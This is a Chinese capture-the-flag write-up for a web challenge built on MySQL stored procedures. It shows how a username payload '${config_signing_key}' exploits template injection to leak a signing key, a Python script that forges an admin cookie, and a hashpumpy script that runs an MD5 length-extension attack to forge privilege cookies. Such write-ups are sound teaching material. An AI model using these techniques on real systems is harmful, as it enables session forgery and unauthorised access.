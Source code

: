打开连接后可以看到是一个注册页面，而且注册后没有登录操作，直接就会变成已登录状态且跳转到个人页面

扫到robots.txt文件，内容信息量很大

```
User-agent: *
Disallow: / # procedure:index_handler
Disallow: /admin # procedure:admin_handler
Disallow: /login # procedure:login_handler
Disallow: /post # procedure:post_handler
Disallow: /register # procedure:register_handler
Disallow: /robots.txt # procedure:robots_txt_handler
Disallow: /static/% # procedure:static_handler
Disallow: /verify # procedure:verify_handler

# Yeah, we know this is contrived :(
```

使用 `verify` 路由可以阅读到一些程序的源码 （全都是存储过程）

看到这个路由后，首先想到的是访问 `admin` 路由，但是可以看到 `admin_handler` 中存在判断： `CALL is_admin(admin)`

然后看到 `login_handler`，`login` 存储过程，可以找到设置cookie 的 `set_cookie`

```sql
BEGIN
    DECLARE signed_value TEXT;
    CALL sign_cookie(i_value, signed_value);

    INSERT INTO `resp_cookies` VALUES (i_name, signed_value) ON DUPLICATE KEY UPDATE `value` = signed_value;
END
```

以及其中的 `sign_cookie`

```
BEGIN
    DECLARE secret, signature TEXT;
    SET secret = (SELECT `value` FROM `config` WHERE `name` = 'signing_key');

    SET signature = SHA2(CONCAT(cookie_value, secret), 256);

    SET signed = CONCAT(signature, LOWER(HEX(cookie_value)));
END
```

可以发现在 `config` 表中存了一个叫做 `signing_key` 的 secret_key

那么如何取到这个 `signing_key`?

阅读了很多个存储过程后，在渲染模板中其实可以看到一个突破点，这里存在一个SSTI漏洞

首先，查看 `login_handler` 的时候，发现其中 call 了一个 `template`，在 `template` 中可以看到又 call 了一个 `template_string` 来进行渲染，看看这个代码

```sql
BEGIN
    DECLARE formatted TEXT;
    DECLARE fmt_name, fmt_val TEXT;
    DECLARE replace_start, replace_end, i INT;

    SET @template_regex = '\$\{[a-zA-Z0-9_ ]+\}';

    CREATE TEMPORARY TABLE IF NOT EXISTS `template_vars` (`name` VARCHAR(255) PRIMARY KEY, `value` TEXT);
    CALL populate_common_template_vars();

    SET formatted = template_s;
    SET i = 0;

    WHILE ( formatted REGEXP @template_regex AND i < 50 ) DO
        SET replace_start = REGEXP_INSTR(formatted, @template_regex, 1, 1, 0);
        SET replace_end = REGEXP_INSTR(formatted, @template_regex, 1, 1, 1);
        SET fmt_name = SUBSTR(formatted FROM replace_start + 2 FOR (replace_end - replace_start - 2 - 1));
        SET fmt_val = (SELECT `value` FROM `template_vars` WHERE `name` = TRIM(fmt_name));
        SET fmt_val = COALESCE(fmt_val, '');
        SET formatted = CONCAT(SUBSTR(formatted FROM 1 FOR replace_start - 1), fmt_val, SUBSTR(formatted FROM replace_end));
        SET i = i + 1;
    END WHILE;

    SET resp = formatted;

    DROP TEMPORARY TABLE `template_vars`;
END
```

可以发现，如果字符串满足 `template_regex` 那么它将会被替换成一个程序中的变量，而这些变量则来自于 `populate_common_template_vars`

```sql
BEGIN
    INSERT INTO `template_vars` SELECT CONCAT('config_', name), value FROM `config`;
    INSERT INTO `template_vars` SELECT CONCAT('request_', name), value FROM `query_params`;
END
```

所以可以考虑使用 `${config_signing_key}` 来获取sign key，但是被拦住了，提示 `Banned word used in post!`

那么这里考虑使用其它值来获取，考虑到注册后直接显示个人主页，那么尝试注册的时候将用户名设置成 `${config_signing_key}` ，注册成功后跳到个人主页成功获取到了secret key

![](./images/1.png)

然后算出管理员的cookie

```python
#coding=utf-8
import hashlib

signing_key = "an_bad_secret_value_nhcq497y8".encode("utf-8")
m = hashlib.sha256()
m.update("1".encode("utf-8"))
m.update(signing_key)
print(m.hexdigest() + '1'.encode('hex'))
```

得到 `admin = 3efb7d99e34432bb6405b6a95619978d4904a2f5b5d8d56b3702939c226d729431`

修改cookie后访问发现页面上什么东西都没有，看到 `admin_handler` 中存在的判断

```sql
 CALL has_priv('panel_create', can_create_panels);
 CALL has_priv('panel_view', can_view_panels);
```

查看 `has_priv` 

```sql
BEGIN
    DECLARE privs, cur_privs, cmp_priv BLOB;
    DECLARE hash, signing_key TEXT;

    SET o_has_priv = FALSE;

    SET privs = NULL;
    CALL get_cookie('privs', privs);

    IF NOT ISNULL(privs) THEN
        SET hash = SUBSTR(privs FROM 1 FOR 32);
        SET cur_privs = SUBSTR(privs FROM 33);
        SET signing_key = (SELECT `value` FROM `priv_config` WHERE `name` = 'signing_key');

        IF hash = MD5(CONCAT(signing_key, cur_privs)) THEN
            WHILE ( LENGTH(cur_privs) > 0 ) DO
                SET cmp_priv = SUBSTRING_INDEX(cur_privs, ';', 1);
                IF cmp_priv = i_priv THEN
                    SET o_has_priv = TRUE;
                END IF;
                SET cur_privs = SUBSTR(cur_privs FROM LENGTH(cmp_priv) + 2);
            END WHILE;
        END IF;
    END IF;
END
```

可以看到 `priv` 的值其实就是 `md5(priv_signing_key + privs) + privs`，而这种加密方式，存在哈希长度扩展攻击的可能，使用hashpump来进行攻击，写个脚本算一下priv

```python
#coding=utf-8
import requests
import hashpumpy
import binascii
import hashlib

if __name__ == "__main__": 
    for i in range(1,33):
        res = hashpumpy.hashpump("60f0cc64f5b633cf502d25ea561a98bf", "\x00", ";panel_create;panel_view;", i)
        # use res[1] as res[1][1:] to ignore the first byte!
        res0 = res[0]
        res1 = binascii.hexlify(res[1][1:]).decode("utf-8")       
        m = hashlib.sha256()    # sha256 (
        m.update(str.encode(res[0]))    #      (md5(signing_key, privs)
        m.update(res[1][1:])    #      + privs)
        m.update(str.encode('an_bad_secret_value_nhcq497y8'))   # + secret)
        priv = m.hexdigest()+ binascii.hexlify(str.encode(res0)+res[1][1:]).decode("utf-8") # + (md5(signing_key, privs) + privs)
        cookies = {
            "email": "1d01019d1418a8eef8b22d46bcf40f4cef3475bfe37496f42c3cc3f391a5bfa934757575407176712e696d",
            "admin": "3efb7d99e34432bb6405b6a95619978d4904a2f5b5d8d56b3702939c226d729431",
            "privs": priv
        }
        req = requests.get("http://web.chal.csaw.io:3306/admin", cookies=cookies)
        if len(req.text) != 287:
            print(priv)
            break
```

替换后可以看到一个panel，随便输入一个东西会提示 `no such table`，于是尝试输入 config，返回了表内容，然后提示中有说到

`Your mission is to read out the txt table in the flag database.`

于是输入 `flag.txt` ，得到flag

![](./images/2.png)